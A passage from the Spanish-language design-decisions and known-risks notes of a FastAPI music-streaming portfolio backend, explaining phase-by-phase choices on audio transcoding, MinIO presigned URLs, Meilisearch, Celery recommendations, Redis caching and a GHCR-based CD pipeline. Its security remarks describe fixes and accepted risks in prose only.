  dev-only** que ya vive hardcodeada ahí y en CI desde la Fase 1 — documentado explícitamente para
  que quede claro que no es un descuido de esta fase, no un secreto real.

**Fase 8 — Subida y transcodificación de audio**

- **`boto3` sobre el SDK propio de MinIO**: es el estándar de facto también para servicios
  S3-compatible (MinIO implementa la API S3), mejor soportado y más conocido que un SDK específico
  de MinIO — mejor señal de portfolio, y `boto3-stubs[s3]` da tipado real para `mypy --strict`.
  Timeouts explícitos (`connect_timeout=5, read_timeout=10, retries={"max_attempts": 1}`) en el
  cliente — ver el bug real de arranque colgado descrito en el Resumen de esta fase.
- **Validación de audio vía `ffprobe`, nunca el `Content-Type` del multipart**: el header lo declara
  el cliente y es trivialmente falseable; `ffprobe` intenta parsear el contenido de verdad.
- **Transcodificación síncrona dentro del request, no Celery**: explícitamente pospuesto. La
  Fase 11 SÍ introdujo Celery, pero acotado a recomendaciones (decisión explícita del usuario, ver
  esa sección) — este riesgo sigue sin resolver, pendiente de una fase futura. Riesgo real y
  documentado (no solo teórico): los endpoints de este proyecto son `def`
  síncronos (confirmado en `app/api/auth.py`), así que FastAPI los despacha al threadpool
  compartido de AnyIO (tamaño por defecto ~40) — una subida ocupa un hilo de ese pool durante todo
  `ffmpeg`/`ffprobe`, y varias subidas concurrentes pueden agotarlo y bloquear temporalmente
  CUALQUIER otro endpoint síncrono de la app (login, registro, `/2fa/*`), incluida la propia
  llamada a Redis del rate limiter (que también usa `run_in_threadpool`, Fase 6) — no solo "un
  worker de uvicorn". Mitigado parcialmente por el límite de 20MB, el `timeout` del subprocess, y
  el propio rate limiter (60/min general), pero no eliminado.
- **`subprocess.run([...])` con lista de argumentos, nunca `shell=True`**: sin interpolación de
  strings no hay inyección de comandos, ni siquiera con un nombre de archivo malicioso (que además
  nunca se usa para construir rutas, ver el punto de la object key más abajo).
- **`timeout=` explícito en `ffmpeg`/`ffprobe`** (30s/300s): sin esto, un archivo malformado
  diseñado para colgar el proceso bloquearía indefinidamente un hilo del pool compartido —
  agravaría el riesgo de agotamiento de arriba.
- **Object key del original nunca derivada del nombre de archivo del cliente**: key fija y
  predecible (`original/{song.id}/source`, sin extensión — `ffmpeg`/`ffprobe` detectan el formato
  por contenido, no por extensión). Encontrado como hallazgo de seguridad en la revisión del plan.
- **Creación del bucket una única vez al arrancar, no perezosamente por request**: evita el TOCTOU
  de dos primeras-subidas concurrentes llamando ambas a `create_bucket` (hallazgo de la revisión
  Backend/DevOps del plan). El `lifespan` de FastAPI no bloquea el arranque de toda la app si MinIO
  no responde (fail-open, ver Resumen) — solo `/songs` se vería afectado.
- **Límite de tamaño (20MB) con alcance parcial honesto, no exagerado**: acota lo que la propia app
  procesa/persiste/transcodifica y sube a MinIO, pero no evita que Starlette reciba y spoolee a
  disco el cuerpo completo de una subida enorme antes de que el código de la aplicación pueda
  cortar (`UploadFile` de alto nivel parsea el multipart completo primero). Una defensa completa
  exigiría leer el stream crudo de la request a mano — desproporcionado para el alcance de esta
  fase; mitigación barata añadida: rechazo inmediato si el cliente declara `Content-Length` por
  encima del límite.
- **Catálogo público**: cualquier usuario autenticado ve/lista cualquier canción, no solo las
  propias — más fiel a un clon de Spotify real. Borrar (si existiera) estaría restringido al
  uploader, pero esta fase no incluye `DELETE` en absoluto (ver Fuera de alcance).
- **Transacciones DB cortas**: la fila `Song` se crea y comitea (dos commits rápidos: inserción y
  luego fijar la key con el `id` ya conocido) ANTES de las operaciones lentas de I/O (subida a
  MinIO, invocación de `ffmpeg`) — no se mantiene una conexión de la pool de Postgres ocupada
  durante esas operaciones.
- **Filas atascadas en `status="processing"` si el proceso muere en seco (OOM/kill) entre crear la
  fila y actualizarla**: riesgo aceptado y documentado, no resuelto en esta fase — la Fase 11
  introdujo Celery pero acotado a recomendaciones, sin mecanismo de reconciliación para este
  pipeline, pendiente de una fase futura.
- **`ffmpeg` instalado vía `apt-get` en el `Dockerfile`, no un paquete pip**: no existe como
  paquete Python; el paquete Debian `ffmpeg` incluye también `ffprobe`. Cuantificado con `docker
  history`: +467MB a la imagen final (de ~600MB a 1.06GB) — trade-off aceptado, es funcionalidad
  requerida, no opcional.
- **Sin `DELETE`/sin presigned URL en esta fase**: decisión explícita del usuario para mantener el
  alcance de esta fase ceñido a "subir y transcodificar" — servir/descargar el audio es
  explícitamente Fase 9 (Range Requests, streaming real). **Presigned URL implementada en Fase 9**;
  `DELETE` sigue sin existir (no era parte del alcance de Fase 9 tampoco).

**Fase 9 — Streaming de audio**

- **Presigned URL de MinIO en vez de proxyear bytes por FastAPI**: MinIO (compatible S3) ya
  soporta `Range` de forma nativa; proxyear exigiría leer `Range` a mano, llamar a
  `get_object(Range=...)` de boto3, envolver el `StreamingBody` en un `StreamingResponse` propio, y
  replicar `Content-Range`/`206` — trabajo real sin beneficio dado que MinIO ya lo resuelve.
- **Por qué JSON y no un `302` directo a la URL firmada**: el propio endpoint que emite la URL
  exige `Authorization: Bearer`, y un `<audio src="...">` HTML nativo no puede mandar ese header —
  un `302` sería literalmente inalcanzable si se apuntara un `<audio src>` directo a
  `/songs/{id}/stream`. El flujo real (aunque esta fase no incluya la UI que lo consuma) es JS
  haciendo `fetch()` autenticado, recibiendo el JSON, y solo entonces asignando `audio.src = url` —
  la URL ya lleva su propia autorización embebida (firma), así que a partir de ahí funciona sin
  headers especiales.
- **Expiración de 15 minutos**: generoso para escuchar/rebobinar una canción de pocos minutos sin
  que expire a mitad, acota razonablemente la ventana de exposición si la URL se filtrara. Sin
  mecanismo de revocación manual (no existe en S3/MinIO sin IAM más complejo) — aceptado.
- **`s3_public_endpoint_url` separado de `s3_endpoint_url`**: dentro de `docker-compose.yml`, el
  contenedor `app` habla con MinIO por el hostname interno `minio:9000` para operaciones
  servidor-a-servidor — pero ese hostname no es resoluble desde el navegador del cliente. El
  endpoint "público" no se sobreescribe en compose (se queda con el default `http://localhost:9000`
  de `.env`), correcto tanto si la app corre en Docker como en venv local, porque en ambos casos el
  navegador está en el mismo host — verificado empíricamente contra ambos caminos (ver Resumen).
- **`region_name="us-east-1"` explícito en ambos clientes `boto3`**: antes se dejaba a la
  resolución implícita del SDK (funcionaba, pero dependía del entorno). Resultó no ser
  estrictamente necesario para la firma real generada (ver la corrección sobre SigV2 vs SigV4 en el
  Resumen), pero es inofensivo y hace el comportamiento determinista independientemente de
  variables `AWS_*` presentes o ausentes en el entorno — se mantiene.
- **Siempre se firma `transcoded_object_key`, nunca `original_object_key`**: el original tiene un
  content-type no controlado (declarado por el uploader); ningún endpoint acepta una key arbitraria
  del cliente para firmar, siempre sale server-side de la fila `Song` ya persistida.
- **Bucket sigue privado**: el segundo cliente `boto3` (`_public_client`) solo cambia el
  `endpoint_url` de firma — ningún cambio de política de acceso del bucket ni ACLs. "Público" en
  los nombres (`_public_client`, `s3_public_endpoint_url`) se refiere a *alcanzabilidad de red*
  (qué host puede resolver el navegador), no a hacer el bucket públicamente accesible sin firma.
- **El endpoint que emite URLs firmadas comparte el tier `general` del rate limiter (60/min)**, sin
  tier propio — suficiente para el alcance de portfolio; un usuario podría en teoría generar
  enlaces de descarga de todo el catálogo en bucle, mitigado porque los metadatos ya son públicos
  de todos modos y cada URL expira en 15 minutos.

**Fase 10 — Búsqueda**

- **`GET /songs/search` dedicado, no un parámetro `q` sobre `GET /songs`**: mismo principio de
  separación de responsabilidades ya aplicado a `storage.py`/`transcode.py` — decisión confirmada
  por el usuario en la revisión del plan.
- **Indexación best-effort, búsqueda no**: si indexar en Meilisearch falla tras una subida exitosa
  (MinIO+ffmpeg ya funcionaron, la canción es reproducible), la subida sigue siendo `201`/
  `status="ready"` igual — se loguea, sin rollback, mismo principio de fail-open que Redis (Fase 6)
  y el arranque sin MinIO (Fase 8/9). `search_songs`, en cambio, **sí propaga** la excepción si
  Meilisearch no responde al *buscar* — devolver una lista vacía en ese caso sería engañoso
  (parecería "sin resultados" en vez de "el buscador está caído"); el endpoint la convierte en
  `503` explícito. Defensa en profundidad en dos capas: `index_song()` no confía en que su llamador
  solo la invoque para canciones `status="ready"` (lo re-comprueba), y el propio call-site en
  `upload_song` envuelve la llamada en su propio `try/except` sin confiar en que `index_song` nunca
  vaya a propagar (encontrado en implementación: un test que monkeypatchea `index_song` entero para
  simular un fallo rompía la subida sin esta segunda capa, porque el monkeypatch reemplaza también
  la protección interna de la función real).
- **Sin re-consultar Postgres al buscar**: el endpoint construye `SongRead` directamente desde los
  documentos que devuelve Meilisearch (mismo conjunto de campos que ya expone `SongRead`). Válido
  mientras no exista `PATCH`/`DELETE` de canciones — hoy una canción `ready` no cambia ni
  desaparece, así que no hay escenario real de desincronización que justifique el coste de una
  segunda consulta. Habría que revisitarlo si se añade edición/borrado en una fase futura.
- **Primary key explícito (`primaryKey: "id"`) al crear el índice**: encontrado empíricamente en
  implementación, no anticipado en el plan — el documento indexado tiene dos campos que terminan en
  "id" (`id`, `uploaded_by_id`), y Meilisearch no puede auto-inferir la primary key cuando hay más
  de un candidato (`index_primary_key_multiple_candidates_found`).
- **Sin `sleep`/retry en los tests de búsqueda, a diferencia de la expiración de URLs firmadas
  (Fase 9)**: `index_song` espera la task de indexación (`wait_for_task`) antes de devolver el
  control — Meilisearch no tiene un `refresh_interval` tipo Elasticsearch, `task.status ==
  "succeeded"` implica que el documento ya es buscable de inmediato. La Fase 9 sí necesitaba tiempo
  de reloj real porque la expiración de una URL firmada es un timer externo, no una task interna
  consultable.
- **Puerto 7700 SÍ publicado al host en `docker-compose.yml`**, pese a que la revisión de seguridad
  del plan había recomendado no publicarlo (Meilisearch no tiene ningún cliente externo tipo
  navegador, a diferencia de MinIO). Revertido en implementación: los tests de este proyecto corren
  desde el host contra infraestructura real (`TEST_DATABASE_URL`/`REDIS_URL`/`S3_ENDPOINT_URL` ya
  apuntan a `localhost` en `.env`, con sus puertos publicados por el mismo motivo), y
  `tests/conftest.py` necesita alcanzar Meilisearch directo para `ensure_index_exists()` y limpiar
  el índice entre tests. Mantener el puerto sin publicar rompía la suite completa (73 errores de
  conexión) — la coherencia con "infraestructura real para cada test, nunca mocks" pesó más que el
  endurecimiento de superficie de ataque, que de todos modos sigue protegido por la master key.
- **CI sí puede usar el bloque declarativo `services:` para Meilisearch**, a diferencia de MinIO: la
  imagen oficial arranca sin argumentos de comando obligatorios (la master key va por variable de
  entorno), así que no hace falta el `docker run -d` manual que sí necesita MinIO (`command: server
  /data`, no soportado por `services:`). El job `docker` también necesita
  `MEILISEARCH_URL`/`MEILISEARCH_API_KEY` en su entorno pese a que su smoke test nunca ejercita
  `/songs/search` — mismo bug de clase ya vivido con `S3_*` en la Fase 8: `Settings()` se valida al
  importar `app.core.config`, y ese import ocurre en el `ENTRYPOINT` (`alembic upgrade head`) antes
  de que `uvicorn` llegue a arrancar.
- **Ajuste alineado en `GET /songs`**: gana `.where(Song.status == "ready")`, corrigiendo una
  inconsistencia preexistente (antes listaba también canciones `"processing"`/`"failed"`, no
  reproducibles). No introducida por esta fase, pero corregirla aquí evita que las dos vistas del
  catálogo (`GET /songs` y `GET /songs/search`) muestren conjuntos distintos de canciones sin
  explicación.

**Fase 11 — Recomendaciones precalculadas (Celery)**

- **Alcance acotado solo a recomendaciones, decisión explícita del usuario**: pese a que varios
  comentarios de fases anteriores decían "hasta que exista Celery (Fase 11)" refiriéndose al
  pipeline de subida de audio, esta fase NO lo tocó — la subida sigue síncrona, esos riesgos
  siguen sin resolver (ver Riesgos conocidos). Evita duplicar dos refactors grandes en una sola
  fase.
- **Algoritmo de afinidad por artista + fallback a popularidad + fallback a más recientes, no un
  ranking global simple**: decisión explícita del usuario para no solapar conceptualmente con la
  futura Fase 12 (caché de contenido popular, que sí sería un ranking global tipo trending).
  Heurística de conteo simple, documentada como tal — no collaborative filtering ni ML.
- **Rediseño de una sola query agregada por ciclo, no por usuario**: el diseño original de la
  revisión del plan llamaba una función que hacía sus propias queries a `song_plays` por cada
  usuario dentro de `recompute_all_recommendations` — la agregación de popularidad global se
  repetía N veces (N = número de usuarios), degradando linealmente. Se separó en
  `fetch_ready_songs`/`fetch_play_aggregates` (una query cada una, una vez por ciclo, agregadas en
  Python a tres diccionarios) y `rank_recommendations_for_user` (función pura sin Postgres, opera solo
  sobre las estructuras ya cargadas en memoria).
- **Recomendaciones en Redis, historial de plays en Postgres**: coherente con "Celery + Redis" ya
  anunciado en el stack del README, y con el patrón ya establecido de que el estado
  derivado/regenerable vive en Redis (buckets del rate limiter) mientras los datos fuente viven en
  Postgres. Redis solo guarda IDs, no objetos completos (a diferencia de Meilisearch en la Fase
  10, que cachea documentos completos porque su trabajo ES la búsqueda) — el endpoint re-consulta
  Postgres por esos IDs (barato, ≤20 filas) y reordena en Python según el orden de Redis, lo que
  además auto-sana si algún día existe borrado de canciones.
- **Broker de Celery en una DB de Redis separada (`.../1`) de la que usa el rate limiter
  (`.../0`)**: evita que el `flushdb()` autouse de los tests, o un futuro flush operacional de los
  buckets del rate limiter, se lleve por delante el estado interno de la cola de Celery.
- **Sin result backend configurado**: nada llama a `.get()` sobre el resultado de
  `recompute_all_recommendations` (Beat la dispara, el efecto es la escritura a Redis) — un
  backend sería una pieza más sin ningún consumidor.
- **Lock corto en Redis contra pases solapados, con liberación atómica (token + compare-and-delete,
  no un `DEL` incondicional)**: Celery Beat no deduplica ejecuciones solapadas por sí solo — sin el
  lock, un pase que alguna vez tardara más que el intervalo de 5 min acumularía un backlog
  creciente sobre el mismo worker. Mitigado también por el rediseño de fetch único (un pase es
  rápido incluso con cientos de usuarios). **Corregido en la revisión post-implementación**: la
  primera versión adquiría el lock con un valor constante y lo liberaba con `DEL` incondicional en
  el `finally` — si un pase excedía el TTL (240s) antes de que Beat disparara el siguiente ciclo
  (300s), el lock expiraba solo, un pase nuevo lo adquiría, y el pase viejo (al terminar) borraba
  ese lock ajeno en vez del suyo — rompía justo la exclusión mutua que el lock prometía. Corregido
  con un token único (`uuid4` por ejecución) y un script Lua de compare-and-delete (mismo patrón
  atómico que el rate limiter, `app/core/rate_limiter.py`) que solo borra el lock si el valor
  todavía coincide con el token de esa ejecución.
- **Engine de Postgres del worker creado dentro de la tarea, no a nivel de módulo** (hallazgo de la
  revisión del plan): `celery worker` usa el pool `prefork` (`fork()`) por defecto — un engine
  SQLAlchemy creado en el proceso padre antes del fork comparte sockets de conexión corruptos
  entre los procesos hijo, footgun conocido de Celery+SQLAlchemy. Crearlo perezosamente dentro de
  la tarea evita el problema sin wiring de señales de Celery (`worker_process_init`) — aceptable
  porque la tarea corre cada 5 min, no por request.
- **`_run_recompute` recibe la URL de la base de datos como parámetro** (encontrado en
  implementación, no en la revisión del plan): la versión inicial de la tarea decorada creaba su
  engine contra `settings.database_url` directamente — si los tests la llamaran así, tocarían la
  base de producción/dev, no `settings.test_database_url`. Separar la lógica real
  (`_run_recompute(database_url)`) del wrapper `@celery_app.task` permite a los tests pasar la URL
  de test explícita.
- **`docker-compose.yml`: `celery-worker`/`celery-beat` sobreescriben `entrypoint:` a `["celery"]`**,
  no heredan el `docker/entrypoint.sh` de `app` (que corre `alembic upgrade head`) — si lo
  heredaran, cada `docker compose up` dispararía tres migraciones concurrentes contra la misma
  Postgres, agravando de inmediato un riesgo hoy solo teórico (ver Riesgos conocidos, Fase 7).
  Dependen de `app: condition: service_healthy` como señal de "las migraciones ya están
  aplicadas", sin duplicar esa lógica en tres sitios.
- **`GET /songs/{id}/stream` registra el play de forma best-effort, no bloqueante** (hallazgo de la
  revisión del plan): la primera versión del diseño hacía el insert+commit de forma bloqueante,
  razonando que "si Postgres no responde el endpoint ya fallaría igual" — falso dilema, un fallo
  específico de esa escritura (deadlock, serialization failure) con las lecturas funcionando bien
  degradaría una función núcleo (reproducir audio) por una señal de analítica. Corregido con
  `try/except`, mismo patrón que `index_song` de la Fase 10.
- **CI**: `test` no levanta un broker real — llama `fetch_ready_songs`/`fetch_play_aggregates`/
  `rank_recommendations_for_user`/`_run_recompute` directo contra Postgres/Redis reales. La única
  cobertura automatizada de la ruta real CLI→broker→worker→Redis vive en el job `docker`: arranca
  `celery-worker` con la misma imagen (`entrypoint`/`command` de Celery), confirma en los logs que
  conectó al broker de verdad (no solo que el proceso siga vivo — un worker sin broker reintenta
  con backoff indefinidamente en vez de salir, dando falso positivo), dispara la tarea real, y hace
  polling sobre Redis hasta ver aparecer una clave `recommendations:*`.

**Fase 12 — Caché de contenido popular**

- **Cache-aside con TTL bajo demanda, no Celery Beat**: decisión explícita del usuario para
  demostrar una técnica de caché/rendimiento distinta de la ya usada en la Fase 11 (precómputo
  programado en background) en vez de repetir el mismo mecanismo con otro nombre. Fase más pequeña
  y autocontenida — no toca `app/worker.py` ni `docker-compose.yml`.
- **Clave global única (`songs:popular`), sin personalización**: a diferencia de
  `recommendations:{user_id}` de la Fase 11, "popular" es la misma lista para cualquier usuario —
  sin excluir canciones ya reproducidas por quien pregunta, coherente con lo que significa un
  ranking de tendencias real (los "top charts" de Spotify tampoco son por-usuario).
- **Caché siempre al tamaño máximo, recorte en la lectura**: `get_popular_song_ids` guarda siempre
  el top 100 en Redis, nunca el `limit` pedido por la request que causó el miss, y corta a `limit`
  al leer — evita que una primera request con `limit` pequeño deje un caché corto que no pueda
  servir una request posterior con `limit` mayor hasta el siguiente TTL.
- **Sin lock anti-stampede** (decisión explícita, documentada, no un descuido): a diferencia del
  lock construido para `recompute_all_recommendations` en la Fase 11, aquí no se replica el mismo
  patrón — la query agregada es barata (misma clase ya medida en la Fase 11, ~0.03s), y el tráfico
  esperado de un proyecto de portfolio no justifica el lock. Riesgo aceptado: varias requests
  concurrentes justo al expirar el TTL podrían recalcular a la vez (mismo resultado, trabajo
  duplicado, no incorrecto) — verificado en la revisión que `SET ... EX` resetea el TTL completo en
  cada escritura, así que tampoco deja un TTL inconsistente más corto.
- **Relectura de `Song` SÍ re-filtra `status="ready"`, a diferencia de las recomendaciones de la
  Fase 11**: hallazgo de la revisión del plan (dos revisores independientes) — defensa en
  profundidad barata, sin coste real, contra una canción que en el futuro pudiera dejar de ser
  `"ready"` mientras sigue cacheada (hoy imposible, no existe esa transición, pero es una línea
  gratis).
- **Refactor del cliente Redis compartido (`app/core/redis_client.py`)**: evita una tercera
  instanciación duplicada del mismo cliente (`app/api/users.py` ya tenía la suya desde la Fase 11).
  `decode_responses=True` se preservó explícitamente al extraerlo — cambiarlo habría roto
  silenciosamente el `cast("str | None", ...)` que ya asume `str` en `get_recommendations`.
- **"Popular" es histórico completo, sin ventana temporal**: la query agrega TODO `song_plays`
  desde el origen, sin filtro de fecha — una canción viral hace tiempo permanece arriba
  indefinidamente aunque nadie la escuche ya, sin mecanismo de decaimiento (hallazgo de la revisión
  del plan, ver también Riesgos conocidos).

**Fase 13 — Sincronización entre dispositivos**

- **REST simple, last-write-wins, sin WebSockets**: decisión explícita del usuario — proyecto
  backend-focused sin UI de reproducción real (Fase 9) que consumiera push en tiempo real de todas
  formas. Añadir WebSockets habría sido la primera infraestructura realtime del proyecto,
  desproporcionado para el alcance de esta fase.
- **`404` en `GET` sin estado, no `200`+objeto vacío**: deliberadamente distinto de `GET
  /users/me/recommendations` (Fase 11) / `GET /songs/popular` (Fase 12), que sí devuelven
  `200`+lista vacía — ahí el recurso es una lista (vacía es un estado válido), aquí es un objeto
  singular (inexistente se modela como `404`, semántica REST estándar).
- **`updated_at` lo sella el servidor, nunca el cliente**: mismo principio de no confiar en relojes
  de cliente ya aplicado a `created_at` de `Song` y `played_at` de `SongPlay` (ambos
  `server_default=func.now()`).
- **Bug real encontrado en la revisión del plan, corregido antes de escribir código**: el diseño
  original pasaba `updated_at` como objeto `datetime` directo a `json.dumps` — `json.dumps` no
  serializa `datetime` por defecto, cada `PUT` habría respondido `500`. Corregido serializando vía
  `PlaybackState(...).model_dump(mode="json")` antes de guardar en Redis.
- **`device_id` es metadata, no un sistema de tracking per-dispositivo**: nunca es parte de la
  clave de Redis, nunca se consulta por separado. El diseño entrega un único puntero global
  "reproduciendo ahora" por usuario, compartido entre todos sus dispositivos — honestidad de
  alcance explícita (hallazgo de la revisión del plan), para que el campo no sugiera más
  consciencia de dispositivo de la que realmente hay.
- **Last-write-wins: el escenario real de riesgo es distinto del que parecía obvio** (hallazgo de
  la revisión del plan): como el servidor sella `updated_at` al RECIBIR la request, el orden de
  llegada YA ES el "last write" por definición — dos dispositivos compitiendo en red normal casi
  nunca produce una inversión observable. El escenario real es un reintento automático o request
  duplicada del MISMO cliente, que reenvía un cuerpo con posición vieja y sobreescribe con datos
  obsoletos un estado más fresco de otro dispositivo. Sin número de secuencia ni idempotency key
  para detectarlo — aceptado.

**Fase 14 — CD (staging/producción, rollback)**

- **Sin servidor/VPS/cuenta de nube real, decisión explícita del usuario**: "staging" y
  "producción" son tags de la misma imagen en GHCR, no entornos reales. Publicar/versionar la
  imagen es real y verificable sin coste; desplegarla a un servidor queda como diseño teórico
  (ver "Cómo escalaría esto en producción real").
- **GHCR, no Docker Hub**: cero cuentas nuevas, usa el `GITHUB_TOKEN` ya disponible en cada run de
  Actions — Docker Hub habría exigido una cuenta y credenciales adicionales como secret, en
  contradicción directa con el alcance confirmado por el usuario (nada nuevo que pagar/gestionar).
- **`workflow_run` (no fusionar con `ci.yml`)**: separación de responsabilidades ya reflejada en la
  existencia de dos archivos desde el scaffolding de Fase 0 — CI valida corrección, CD distribuye.
  El filtro `branches: [main]` en `workflow_run` usa la rama del propio *run* de CI que lo disparó,
  así que un CI de una PR de rama feature nunca dispara CD.
- **Promover a producción y hacer rollback son la MISMA operación**: apuntar el tag `production` a
  un SHA ya publicado — más nuevo es promoción, más viejo es rollback. Un único job
  `set-production-tag`, no dos, evita duplicar código para la misma operación de registry con
  distinto nombre según la dirección.
- **Inyección de comandos vía `${{ inputs.target_sha }}`, encontrada y corregida en la revisión del
  plan (severidad alta, confirmada por dos revisores independientes)**: interpolar una expresión de
  GitHub Actions directo dentro de un bloque `run:` de bash es sustitución de TEXTO antes de la
  ejecución, no una variable de shell protegida por comillas — un `target_sha` malicioso podría
  ejecutar comandos arbitrarios con el token del runner (`packages: write`). Corregido pasando el
  input por `env:` (variable de entorno real) más una validación de formato
  (`^[0-9a-f]{7}$`) como defensa en profundidad adicional.
- **`docker buildx imagetools create`, no un rebuild, para mover `production`**: operación
  registry-a-registry (copia el manifest existente) que promueve exactamente los mismos bytes ya
  probados en CI — evita la clase de bug "funcionó en staging pero el build de producción salió
  distinto". Se verifica primero con `imagetools inspect` que el SHA objetivo exista de verdad,
  para fallar alto y claro en vez de crear un tag `production` roto silenciosamente.
- **`build-and-push` reconstruye la imagen y no repite el smoke test de `ci.yml`**: simplificación
  aceptada y documentada — dos builds separados del mismo commit con la imagen base pinneada
  (`python:3.12.7-slim-bookworm`) tienen bajo riesgo de deriva; reutilizar el artefacto exacto de
  CI exigiría subir/bajar la imagen como artifact intermedio entre workflows, complejidad no
  proporcional al alcance de esta fase.
- **Dependencia implícita entre "CI success" y "el job `docker` de `ci.yml` también pasó"**:
  documentada con un comentario ancla en el propio `cd.yml` (hallazgo de la revisión del plan) — es
  cierto hoy porque `docker` no tiene `if:` propio, solo `needs: test`, pero es una propiedad
  emergente de `ci.yml`, no algo que `cd.yml` fuerce por sí mismo.
- **Visibilidad del paquete GHCR — corregido tras la verificación real, no solo lo anticipado en el
  plan**: se esperaba que el paquete naciera privado por defecto y hubiera que hacerlo público a
  mano; verificado empíricamente tras el primer `build-and-push` real (`docker logout ghcr.io` +
  `docker buildx imagetools inspect` sin sesión) que en la práctica quedó público de inmediato, sin
  ningún paso manual — posiblemente depende de configuración de cuenta/organización no controlada
  por este workflow. Verificado como seguro publicarlo de todas formas (`Dockerfile` sin `COPY .
  .`, sin secretos horneados, `.env` ya excluido en `.dockerignore`).
- **Verificación sin token usa `docker buildx imagetools inspect`, no la API REST de Packages**
  (corrección de método encontrada en la revisión del plan, confirmada en la verificación real): la
  API REST de Packages devuelve `401 Requires authentication` incluso sin ningún parámetro
  especial, a diferencia de la API de repos/Actions/PRs ya usada sin token en fases anteriores;
  `imagetools inspect` sí funciona anónimo contra el registry.

## Riesgos conocidos

- ~~Desalineación de versión de Python~~ — **verificado en Fase 5, sin problemas reales**: el
  entorno de desarrollo local usa Python 3.13 (única versión instalada en esta máquina); la
  matriz de CI (Fase 5) corre 3.10/3.11/3.12 de verdad en GitHub Actions. Las tres versiones
  pasaron limpio en el primer PR real (migraciones, ruff, black, mypy `--strict`, pytest con
  `--cov-fail-under=85`) — el riesgo que se venía documentando desde la Fase 0 como teórico quedó
  descartado con datos reales, no solo asumido.
- **Dependencias transitivas sin pinnear**: `requirements.txt` fija fastapi/uvicorn/pytest, pero
  no sus dependencias transitivas (pydantic, starlette, etc.). Local (3.13) y CI (3.10-3.12)
  podrían resolver versiones transitivas distintas — es el punto más probable donde el desfase de
  versión de Python muerda de verdad. Revisar en Fase 4/5 si conviene un lockfile
  (`pip-compile`, `uv lock` o similar).
- ~~Sin rate limiting en `/auth/login` ni `/auth/register`~~ — **resuelto en Fase 6**: tier
  `sensitive` del rate limiter (capacidad 5, refill 1/12s) por IP del cliente.
- **`/auth/register` permite enumerar emails registrados** (responde 409 explícito si el email ya
  existe), a diferencia de `/auth/login` que sí es cuidadoso (401 genérico + timing equalizado
  tanto si el email no existe como si la contraseña es incorrecta). Aceptado como limitación
  conocida para este proyecto de portfolio, no corregido en Fase 1.
- **`COOKIE_SECURE=true` por defecto requiere HTTPS**: en desarrollo local por `http://` hay que
  poner `COOKIE_SECURE=false` en `.env` (así está configurado en el `.env` local), o el navegador
  no enviará la cookie del refresh token.
- ~~`PATCH /users/me/premium` solo exige un access token válido~~ — **resuelto en Fase 3**:
  `POST /users/me/premium/activate` ahora exige 2FA confirmado + contraseña + código TOTP.
- **Pérdida o rotación de `TOTP_ENCRYPTION_KEY`**: deja indescifrables todos los secretos TOTP ya
  guardados, forzando a reconfigurar 2FA a todos los usuarios existentes. No hay estrategia de
  rotación de clave en esta fase (aceptado para el alcance de un portfolio).
- ~~El lockout de TOTP es ad-hoc y por-usuario, no un rate limiter general~~ — **resuelto en
  Fase 6**: el rate limiter general (tier `general`, capacidad 60/min por identidad) cubre además
  el caso de un atacante repartiendo intentos entre muchas cuentas distintas a la vez; el lockout
  de Postgres sigue siendo la protección primaria por-cuenta, más estricta.
- **Fail-open del rate limiter como escenario de ataque, no solo riesgo operacional**: para
  `/auth/login` y `/auth/register` (sin ningún otro control además de este rate limiter — a
  diferencia de `/2fa/verify`/`/premium/activate`, que además tienen el lockout de Postgres), un
  atacante que consiga saturar o tumbar Redis elimina de un plumazo la única protección contra
  fuerza bruta de esos dos endpoints, sin que la API deje de responder (justo lo que fail-open
  prioriza). Aceptado explícitamente para el alcance de este proyecto — ver la justificación
  completa en Decisiones técnicas, Fase 6.
- **No hay endpoint para desactivar 2FA una vez confirmado**: limitación conocida, fuera de
  alcance de esta fase (no lo pedía el enunciado). Un usuario que pierde su dispositivo
  autenticador no tiene forma de recuperar acceso a la activación de premium sin intervención
  manual en la base de datos.
- **El hook de `mypy` en pre-commit requiere el venv activado**: al ser `language: system`, usa
  el `mypy` del `PATH` de quien commitea. Si el venv no está activado (otra terminal, GUI de git),
  el hook falla con `Executable 'mypy' not found` en vez de correr una versión distinta en
  silencio — falla ruidoso, no silencioso, pero sigue siendo fricción a documentar (ver README).
- ~~`pytest-cov` sin umbral obligatorio~~ — **resuelto en Fase 5**: `--cov-fail-under=85` en CI
  (esta entrada quedó sin actualizar hasta la revisión de documentación de la Fase 6).
- **Migraciones automáticas del `ENTRYPOINT` no soportan réplicas concurrentes** (Fase 7): si en el
  futuro hay más de una réplica del contenedor de la API arrancando a la vez, cada una correría
  `alembic upgrade head` de forma concurrente — Alembic no tiene locking distribuido incorporado.
  Aceptado mientras esta fase no levante réplicas reales; a resolver si/cuando la Fase 14 (CD) las
  introduzca (mover la migración a un job/init-container separado).
- ~~La imagen Docker todavía no se publica en ningún registry~~ — **resuelto en Fase 14**: cada
  push a `main` que pasa CI publica la imagen versionada (tag `sha-<corto>` + `staging`) en GitHub
  Container Registry; `production` se promueve/revierte manualmente. Sin servidor real que la
  consuma (decisión explícita, ver esa sección) — publicación y versionado sí son reales.
- **Un único contenedor de la API, sin réplicas reales** (Fase 7): el diseño multi-réplica que ya
  asumía el rate limiter con Redis (Fase 6, justificación de "por qué Redis y no memoria local")
  sigue siendo teórico hasta que haya un balanceador delante — sin fase de proxy/CDN todavía
  (Fase 9/15).
- **Base `python:3.12.7-slim-bookworm` pinneada, sin parches de seguridad automáticos** (Fase 7):
  trade-off aceptado por reproducibilidad del build; requiere un bump manual periódico de la
  versión pinneada, no ocurre solo.
- **Agotamiento del threadpool compartido bajo subidas concurrentes** (Fase 8): todos los endpoints
  de la app son síncronos y comparten el mismo pool (AnyIO, ~40 hilos por defecto); varias subidas
  de audio a la vez pueden agotarlo y bloquear temporalmente CUALQUIER otro endpoint, incluida la
  llamada a Redis del rate limiter. Mitigado parcialmente (límite de tamaño, timeout de subprocess,
  rate limiter), no eliminado — la Fase 11 introdujo Celery pero acotado a recomendaciones
  (decisión explícita del usuario), este pipeline sigue síncrono, pendiente de una fase futura.
- **Filas de `Song` atascadas en `status="processing"`** si el proceso muere a mitad del pipeline
  (Fase 8): sin mecanismo de reconciliación, mismo motivo que el punto anterior.
- **Límite de tamaño de subida (20MB) con alcance parcial** (Fase 8): no evita que Starlette
  reciba/spoolee a disco el cuerpo completo de una subida enorme antes de que el código de la app
  pueda cortar — ver Decisiones técnicas, Fase 8, para el detalle y la mitigación parcial aplicada.
- **Sin límite acumulado de almacenamiento/subidas por usuario** (Fase 8): el límite es solo por
  request (20MB); combinado con el rate limiter general (60/min), un usuario podría subir hasta
